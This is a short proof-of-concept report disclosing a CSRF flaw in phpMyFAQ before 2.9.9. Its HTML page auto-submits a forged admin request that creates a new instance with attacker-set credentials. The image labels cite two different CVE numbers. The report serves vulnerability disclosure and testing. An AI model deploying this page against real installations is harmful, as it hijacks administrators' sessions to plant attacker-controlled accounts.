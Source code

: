 # Vulnerability Type

Cross-Site Request Forgery

# Description

In phpMyFaq before 2.9.9, there is CSRF in admin/ajax.config.php.

# PoC Report

 ## Environment Setup

 - Software Link: https://github.com/thorsten/phpMyFAQ/
 - Version: 2.9.8
 - Tested on: Windows 10

 ## Exploit Description

phpMyFaq is vulnerable to a Cross-Site Request Forgery (CSRF) attack that allows an attacker to create new instances without user consent.

 ## Steps to Reproduce

    1. Save the following code as `poc.html`.
     2. Log in phpmyfaq, and open the file in the same browser.
     3. The following outcome will occur:
     4. Begin: 

![CVE-2017-15801-1](assets\CVE-2017-15801-1.png)

5. After: 

![image-2017-15808-2](assets\image-2017-15808-2.png)

 ## Proof Of Concept

```
<html>
  <body>
    <form action="http://phpmyfaq/admin/index.php" method="GET">
      <input type="hidden" name="action" value="ajax">
      <input type="hidden" name="ajax" value="config">
      <input type="hidden" name="ajaxaction" value="add_instance">
      <input type="hidden" name="url" value="malicious">
      <input type="hidden" name="instance" value="malicious_instance">
      <input type="hidden" name="comment" value="CSRF Test">
      <input type="hidden" name="email" value="attacker@example.com">
      <input type="hidden" name="admin" value="attacker">
      <input type="hidden" name="password" value="password123">
      <input type="submit" value="Submit request">
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

